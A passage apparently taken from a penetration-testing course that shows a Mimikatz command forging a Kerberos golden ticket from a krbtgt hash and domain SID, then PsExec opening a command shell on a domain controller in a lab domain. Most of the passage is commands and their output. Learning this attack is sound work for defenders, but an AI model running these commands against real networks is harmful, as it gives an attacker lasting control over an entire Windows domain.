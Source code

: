 ```
mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
User      : jen
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500    
Groups Id : *513 512 520 518 519
ServiceKey: 1693c6cefafffc7af11ef34d1c788f47 - rc4_hmac_nt
Lifetime  : 9/16/2022 2:15:57 AM ; 9/13/2032 2:15:57 AM ; 9/13/2032 2:15:57 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jen @ corp.com' successfully submitted for current session

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF665F1B800
```

> Listing 37 - Creating a golden ticket using Mimikatz

Mimikatz provides two sets of default values when using the golden ticket option: the user ID and the groups ID. The user ID is set to 500 by default, which is the RID of the built-in administrator for the domain. The values for the groups ID consist of the most privileged groups in Active Directory, including the Domain Admins group.

With the golden ticket injected into memory, let's use *PsExec*\_ to launch a new command prompt with **misc::cmd**.

```
C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Windows\system32>ipconfig

Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::5cd4:aacd:705a:3289%14
   IPv4 Address. . . . . . . . . . . : 192.168.50.70
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254
C:\Windows\system32>whoami
corp\jen
```
